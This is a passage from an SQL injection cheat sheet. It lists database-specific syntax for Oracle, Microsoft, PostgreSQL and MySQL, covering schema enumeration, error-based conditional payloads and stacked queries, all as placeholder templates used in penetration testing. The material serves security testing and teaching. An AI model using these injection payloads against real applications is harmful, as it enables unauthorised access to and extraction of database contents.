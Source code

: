 PostgreSQL
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

MySQL
```
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`

Microsoft

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`

PostgreSQL

`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`

MySQL

`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle

`Does not support batched queries.`

Microsoft

`QUERY-1-HERE; QUERY-2-HERE`

PostgreSQL

`QUERY-1-HERE; QUERY-2-HERE`

MySQL

`QUERY-1-HERE; QUERY-2-HERE`

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
